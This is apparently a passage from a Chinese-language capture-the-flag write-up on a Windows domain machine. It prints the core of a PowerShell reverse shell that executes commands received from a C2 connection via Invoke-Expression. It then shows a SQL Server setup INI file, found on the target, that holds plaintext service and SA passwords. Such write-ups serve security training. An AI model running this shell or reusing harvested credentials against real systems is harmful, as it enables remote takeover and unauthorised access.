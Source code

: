 ```shell
# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close()
```

看到用户文件夹下的 `Download` 有个 `SQLEXPR-2019_x64_ENU` 目录，进去发现 `sql-Configuration.INI`，内容如下：

```ini
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```
